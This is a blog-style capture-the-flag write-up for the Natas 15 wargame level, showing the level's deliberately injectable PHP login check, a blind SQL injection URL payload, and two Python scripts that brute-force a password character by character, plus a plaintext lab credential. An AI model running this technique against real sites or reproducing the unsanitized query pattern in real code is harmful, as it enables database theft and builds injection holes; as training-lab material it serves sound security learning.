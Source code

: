 ```yaml
---
layout: post
title:  "Natas Level 15"
date:   2015-09-29 12:10
categories: natas wargame web overthewire
author: Nate
---
```


## NATAS 15

![natas15](/images/natas15.png)

NATAS 15 demonstrates how confirming the contents of a username can be combined with a SQL Injection vulnerability to enable what's called a Blind SQL Injection attack.  If we click on the View sourcecode link shown in the screenshot above, we can once again view the server-side PHP script that the challenge author made available to us (see below).

{% highlight html linenos %}
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas15", "pass": "<censored>" };</script></head>
<body>
<h1>natas15</h1>
<div id="content">
<?

/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas15', '<censored>');
    mysql_select_db('natas15', $link);

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysql_query($query, $link);
    if($res) {
    if(mysql_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysql_close($link);
} else {
?>

<form action="index.php" method="POST">
Username: <input name="username"><br>
<input type="submit" value="Check existence" />
</form>
<? } ?>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
{% endhighlight %}

The first thing we notice is that once again, just like NATAS 14, the user input is retrieved using the built-in $_REQUEST variable array.
The $_REQUEST array in PHP contains the contents of HTTP cookies, HTTP POST, and HTTP GET.  If you're familiar with PHP, you should notice that this input isn't being sanitized before the value is placed in the SQL query to the database.

At first glance, it doesn't appear that there is much you can do even if your SQL injections were successful because the script doesn't echo the query results back to the client.

However, there are two subtle hints that we're meant to pay attention to.  First, we're given the structure of the users table.  The users table has two columns: username, and password - and they both accept a maximum of 64 characters.  Coincidentally, we need a username and password to get to the next challenge.  Second, since the username input isn't sanitized, when we perform a SQL injection, the page will at least confirm whether our SQL query returns a row in the database.

This leads us to conclude that a blind sql injection attack must be possible.  Our attempt at asking the database whether a password value exists (injected after the username) would be made easier if we already had a valid username.  Since we're trying to get to NATAS 16, I naturally tried natas16 as a username.

![username_natas16](/images/natas15_username_natas16.png)

Conveniently for us, natas16 is a valid username.

![username_exists](/images/natas15_username_exists.png)

Great.  Now all we need to do is guess a 64 alphanumeric password!  Actually, it's not that hard.  MySQL provides a few convenient string comparison features that will make this effort a lot less taxing.

First, instead of asking mysql if the password = 'string_value', which will return true if there is an exact match in the database, the LIKE keyword will perform a string comparison on a per-character basis.  You can check out the documentation here: 

https://dev.mysql.com/doc/refman/5.0/en/string-comparison-functions.html

Second, since we don't know the collation of the password field, and we want to ensure our string comparisons are case-sensitive, we can use the BINARY keyword to force a case-sensitive comparison.  More information on this keyword is available in the documentation here:

https://dev.mysql.com/doc/refman/5.0/en/charset-binary-op.html

Finally, MySQL allows the use of wildcards in your string comparisons.  This will allow us to essentially ask the database if username natas16 has a password that contains a given character anywhere in the string.

So the way to solve this challenge is to use the confirmation of the user existing to inject an additional query to ask whether the username AND password together is found in the database.  Our blind sql injection will be combined with a brute force attack to ask about every alphanumeric character until we find a match.  However, to make things easier, we'll first establish the list of characters that exist in the password before we try to brute force guess the exact order that those characters are found.

The SQL Query will look something like this:
{% highlight sql %}
SELECT * from users where username="natas16" and password LIKE BINARY "%W%"
{% endhighlight %}

You can achieve this effort by typing these characters by hand into the GET parameters of the URL in your browser,
{% highlight html %}
http://natas15.natas.labs.overthewire.org/index.php?username=natas16%22+and+password+LIKE+BINARY+%22%W%&debug
{% endhighlight %}

but that's going to take a long time, and we all value our time.  Instead, I wrote a python script to do it for me.

{% highlight python linenos %}
#!/bin/python
import requests,string

url = "http://natas15.natas.labs.overthewire.org"
auth_username = "natas15"
auth_password = "AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J"

# characters = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'
characters = ''.join([string.ascii_letters,string.digits])

# Begin by building a dictionary of characters found in the password
# This will greatly decrease the complexity for our brute force attempts
password_dictionary = []
exists_str = "This user exists."
for char in characters:
    uri = ''.join([url,'?','username=natas16"','+and+password+LIKE+BINARY+"%',char,'%','&debug'])
    r = requests.get(uri, auth=(auth_username,auth_password))
    if exists_str in r.text:
        password_dictionary.append(char)
        print("Password Dictionary: {0}").format(''.join(password_dictionary))
print("Dictionary build complete.")
print("Dictionary: {0}").format(''.join(password_dictionary))
{% endhighlight %}

This script will establish a list of all the alphanumeric characters found in the password for natas16.  We confirm each character exists by parsing the result of the GET request for "This user exists." .  Once this list is built, we'll have a much smaller range of characters to brute force guess the password.

Now, we'll take that list and start guessing the password:

{% highlight python linenos %}
# Given the dictionary of characters we just built, we'll try each character in that list
print("Now attempting to brute force...")
password_list = []
password = ''
for i in range(1,64):
    for char in password_dictionary:
        test = ''.join([password,char])
        # Build the GET Request
        uri = ''.join([url,'?','username=natas16"','+and+password+LIKE+BINARY+"',test,'%','&debug'])
        # Send the HTTP GET request to the server
        r = requests.get(uri, auth=(auth_username,auth_password))
        # Parse the HTTP response
        if exists_str in r.text:
            password_list.append(char)
            password = ''.join(password_list)
            print("Length: {0}, Password: {1}").format(len(password),password)
{% endhighlight %}

![brute_force](/images/natas15_brute_force.png)

And that's it.  The password is the 32 character string at the bottom of the image.  To get to the next stage, navigate to http://natas16.natas.labs.overthewire.org/ and enter the username and password at the prompt.
